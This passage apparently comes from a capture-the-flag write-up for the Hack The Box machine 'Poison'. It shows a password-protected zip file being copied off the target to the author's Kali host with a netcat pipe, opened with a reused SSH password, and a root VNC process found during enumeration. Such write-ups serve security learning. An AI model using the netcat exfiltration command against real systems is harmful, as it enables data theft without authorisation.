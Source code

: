 Attempting to unzip the `secret.zip` file resulted in a failure since it was password protected:

```none
$ unzip secret.zip
Archive:  secret.zip
 extracting: secret |
unzip: Passphrase required for this entry
```

After doing some reasearch on the `unzip` tool in FreeBSD, there was no option to provide a password with it, so I transferred the file over to my Kali machine with `/bin/nc`.

On the Poison machine:

```none
$ cat secret.zip - | nc 10.10.14.18 2001
$ sha1 secret.zip
SHA1 (secret.zip) = 7dc5857af34cddb9d6986dc721b269ffcc9b07be
```

On my kali machine:

```none
kali@kali:~/htb/machines/poison/privesc$ ncat -nvlp 2001 > secret.zip
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.84.
Ncat: Connection from 10.10.10.84:35079.

kali@kali:~/htb/machines/poison/privesc$ sha1sum secret.zip
7dc5857af34cddb9d6986dc721b269ffcc9b07be  secret.zip
```

Notice that I used the `SHA1` hashing algorithm to verify that the file didn't get corrupt in transport.
I then unzipped the secret with `charix`'s SSH password:

```none
kali@kali:~/htb/machines/poison/privesc/secret$ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password:
 extracting: secret

kali@kali:~/htb/machines/poison/privesc/secret$ xxd secret
00000000: bda8 5b7c d596 7a21                      ..[|..z!
```

At this point, I continued on with enumerating the system.
The most suspicious process was a VNC server running as root:

```none
$ ps aux | grep root
... CONTENT SNIPPED ...
root     529  0.0  0.9 23620  9100 v0- I    19:51     0:00.25 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120
... CONTENT SNIPPED ...
```
